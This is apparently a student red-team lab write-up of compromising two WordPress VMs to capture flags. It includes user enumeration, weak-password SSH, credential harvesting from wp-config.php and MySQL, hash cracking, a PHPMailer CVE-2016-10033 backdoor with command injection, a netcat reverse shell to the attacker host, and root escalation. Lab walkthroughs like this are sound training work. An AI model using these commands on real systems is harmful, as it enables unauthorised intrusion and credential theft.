# Red Team: Summary of Operations

## Table of Contents
- Target 1
  - Exposed Services
  - Critical Vulnerabilities
  - Exploitation
- Target 2
  - Exposed Services
  - Critical Vulnerabilities
  - Exploitation

## Target 1

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
  # netdiscover -r 192.168.1.90
```


Nmap scan results for Target 1 machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```



This scan identifies the services below as potential points of entry:
- Port 22/tcp: SSH
- Port 80/tcp: HTTP
- Port 111/tcp: RPCbind
- Port 139/tcp: netbios-ssn
- Port 445/tcp: netbios-ssn

---

### Critical Vulnerabilities

The following vulnerabilities were identified on Target 1:
- User Enumeration (WordPress site)
- Weak User Password
- Unsalted User Password Hash (WordPress database)
- Misconfiguration of User Privileges/Privilege Escalation

---

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

#### Flag 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**:
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `wpscan --url 192.168.1.110/wordpress --enumerate u`

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```


  - Used SSH to gain a user shell.
    - **Command**: `ssh michael@192.168.1.110`
    - **Password**: `michael`

```bash
  # ssh michael@192.168.1.110
```


  - Searched directories for service.html to find Flag 1.
    - **Command**: `cat var/www/html/service.html`

```bash
  # cat var/www/html/service.html
```

  - Screenshot of Flag 1:


---

#### Flag 2

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `cat var/www/flag2.txt`

```bash
  # cat var/www/flag2.txt
```

  - Screenshot of Flag 2:


---

#### Flag 3

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Continued using user shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.

  - Finding the MySQL database password:
    - **Command**: `cd /var/www/html/wordpress/`
    - **Command**: `nano wp-config.php`

```bash
  # nano wp-config.php
```



  - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - **DB_NAME**:	`wordpress`
    - **DB_USER**:	`root`
    - **DB_PASSWORD**:	`R@v3nSecurity`
    - **Command**: `mysql -u root -pR@v3nSecurity -D wordpress`

```bash
  # mysql -u root -pR@v3nSecurity -D wordpress
```


  - Searched MySQL database for Flag 3 and WordPress user password hashes.
    - Flag 3 found in `wp_posts`.
    - Password hashes found in `wp_users`.
    - **Command**: `show tables;`
    - **Command**: `select * from wp_posts;`
    - **Command**: `select * from wp_users;`

  - Screenshot of Flag 3:



  - Screenshot of WordPress user password hashes:



---

#### Flag 4

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Used john to crack the password hash obtained from MySQL database, secured new user shell as Steven, escalated to root.

  - Cracking the password hash with john.
    - Copied password hash from MySQL into `~/Desktop/hash.txt` and cracked with john to discover Steven’s password is `pink84`.
    - **Command**: `cd ~/Desktop`
    - **Command**: `john hash.txt`



  - Secure a user shell as the user whose password you cracked.
    - **Command**: `ssh steven@192.168.1.110`
    - **Password**: `pink84`


  - Escalating to root:
    - **Command**: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`

```bash
  # sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

  - Searched root directory for Flag 4.
    - **Command**: `cd /root/`
    - **Command**: `ls`
    - **Command**: `cat flag4.txt`

  - Screenshot of Flag 4:


---

## Target 2

Target 2 exposes the same WordPress site as Target 1, but with better security hardening.

### Exposed Services

Nmap results identify the IP addresses of Targets on the network:

```bash
  # nmap -sn 192.168.1.0/24
```


Nmap scan results for Target 2 machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.115
```



This scan identifies the services below as potential points of entry:
- Port 22/tcp: SSH
- Port 80/tcp: HTTP
- Port 111/tcp: RPCbind
- Port 139/tcp: netbios-ssn
- Port 445/tcp: netbios-ssn

---

### Critical Vulnerabilities

The following vulnerabilities were identified on Target 2:
- CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer 5.2.16)
- URL Enumeration (WordPress site)
- Weak Root Password
- Misconfiguration of User Privileges/Privilege Escalation

---

### Exploitation

The Red Team was able to penetrate `Target 2` and retrieve the following confidential data:

#### Flag 1

  - `flag1`: a2c1f66d2b8051bd3a5874b5b6e43e21
    - **Exploit Used**:
      - Enumerated WordPress site with Nikto and Gobuster to create a list of exposed URLs from the Target HTTP server and gather version information.
    - **Command**: `nikto -C all -h 192.168.1.115`

```bash
  # nikto -C all -h 192.168.1.115
```


  - Determined the website is running on Apache/2.4.10 (Debian).
  - Performed a more in-depth enumeration with gobuster.
    - **Command**: `sudo apt-get update`
    - **Command**: `sudo apt-get install gobuster`
    - **Command**: `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u 192.168.1.115`

```bash
  # gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u 192.168.1.115
```



  - The `PATH` file in the `Vendor` directory was modified recently compared to other files. Subsequent investigation of this file revealed Flag 1.



  - Screenshot of Flag 1:


  - Investigated the `VERSION` file and discovered the PHPMailer version being used is 5.2.16.


  - Investigated the `SECURITY.md` file and identified CVE-2016-10033 (Remote Code Execution Vulnerability) as a potential exploit for PHPMailer version 5.2.16.



#### Flag 2

  - `flag2.txt`: 6a8ed560f0b5358ecf844108048eb337
    - **Exploit Used**:
      - Used Searchsploit to find vulnerability associated with PHPMailer 5.2.16, exploited with bash script to open backdoor on target, and opened shell on target with Ncat listener.
    - **Command**: `nc -lnvp 4444`
    - **Command**: `nc 192.168.1.90 4444 -e /bin/bash`
    - **URL**: `192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`

  - Used Searchsploit to find any known vulnerabilities associated with PHPMailer.
    - **Command**: `searchsploit phpmailer`

```bash
  # searchsploit phpmailer
```



  - Confirmed exploit 40970.php matched with CVE-2016-10033 and PHPMailer version 5.2.16.
    - **Command**: `searchsploit -x /usr/share/exploitdb/exploits/php/webapps/40970.php`

```bash
  # searchsploit -x /usr/share/exploitdb/exploits/php/webapps/40970.php
```


  - Used the script `exploit.sh` to exploit the vulnerability by opening an Ncat connection to attacking Kali VM.
    - The IP address of Target 2 is 192.168.1.115.
    - The IP address of the attacking Kali machine is 192.168.1.90.



  - Ran the script and uploaded the file `backdoor.php` to the target server to allow command injection attacks to be executed.
    - **Command**: `bash exploit.sh`

```bash
  # bash exploit.sh
```


  - Navigating to 192.168.1.115/backdoor.php?cmd=<CMD> now allows bash commands to be executed on Target 2.
    - **URL**: `192.168.1.115/backdoor.php?cmd=cat%20/etc/passwd`



  - Used backdoor to open a shell session on the target.
  - Started netcat listener on attacking Kali VM.
    - **Command**: `nc -lnvp 4444`

```bash
  # nc -lnvp 4444
```


- In the browser, used backdoor to run command and open shell session on target.
    - **Command**: `nc 192.168.1.90 4444 -e /bin/bash`
    - **URL**: `192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`


- This allowed Ncat listener to connect to the target.
- User shell opened on target using the following command:
    - **Command**: `python -c ‘import pty;pty.spawn(“/bin/bash”)’`

```bash
  # python -c ‘import pty;pty.spawn(“/bin/bash”)’
```


  - After gaining shell session, Flag 2 was discovered in /var/www.
    - **Command**: `cd ..`
    - **Command**: `cat flag2.txt`

  - Screenshot of Flag 2:


#### Flag 3

  - `flag3.png`: a0f568aa9de277887f37730d71520d9b
    - **Exploit Used**:
      - Used shell access on target to search WordPress uploads directory for Flag 3, discovered path location, and navigated to web browser to view flag3.png.
    - **Command**: `find /var/www -type f -iname 'flag*'`
    - **Path**: `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`
    - **URL**: `192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`

  - Used `find` command to find flag in the WordPress uploads directory.

```bash
  # find /var/www -type f -iname 'flag*'
```


  - Discovered Flag 3 location path is `/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png`
  - In web browser navigated to `192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`
  - Screenshot of Flag 3:





#### Flag 4

  - `flag4.txt`: df2bc5e951d91581467bb9a2a8ff4425
    - **Exploit Used**:
      - Escalated to root by using `su root` command and manual brute force to find password, changed to root directory, and found Flag 4 in text file.
    - **Command**: `su root`
    - **Password**: `toor`
    - **Command**: `cd /root`
    - **Command**: `cat flag4.txt`

  - Screenshot of Flag 4:

